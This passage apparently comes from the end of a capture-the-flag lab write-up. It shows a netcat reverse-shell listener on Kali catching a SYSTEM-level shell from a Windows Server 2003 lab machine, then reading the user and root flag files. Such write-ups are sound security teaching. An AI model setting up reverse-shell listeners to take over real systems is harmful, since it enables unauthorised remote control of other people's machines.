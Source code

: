 

And on my listener:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.14.
    Ncat: Connection from 10.10.10.14:1038.
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    C:\WINDOWS\TEMP>whoami
    whoami
    nt authority\system



### Flags

From there I can grab both flags:



    C:\Documents and Settings>type harry\desktop\user.txt
    bdff5ec6************************

    C:\Documents and Settings>type administrator\desktop\root.txt
    9359e905************************







